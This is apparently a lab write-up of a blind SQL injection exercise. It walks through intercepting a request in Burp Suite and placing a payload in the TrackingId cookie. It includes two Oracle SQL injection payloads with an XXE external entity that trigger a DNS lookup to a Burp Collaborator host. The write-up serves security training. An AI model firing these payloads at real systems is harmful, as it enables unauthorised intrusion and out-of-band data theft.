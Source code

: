 Step 1 : Intercept the request using BurpSuite Pro.

Step 2 : Modify the TrackingId cookie, changing it to a payload that will trigger an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows:
  ```
  ' UNION SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual-- 
  ```
  
Step 3: Go to Burp Collaborator Client and copy the subdomain and paste it in payload. For eg:
   ```
   ' union SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://615l2lnatx5gf2wkh3dq2x9xtozen3.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual-- 
   ```
   
Step 4: Copy and paste it after TrakingId Cookie, the URL encode it then send.

Step 5: Now go to Burp Collaborator, and press 'Poll now'  to confirm that a DNS lookup occurred.

Step 6: You will now see the DNS Lookup.

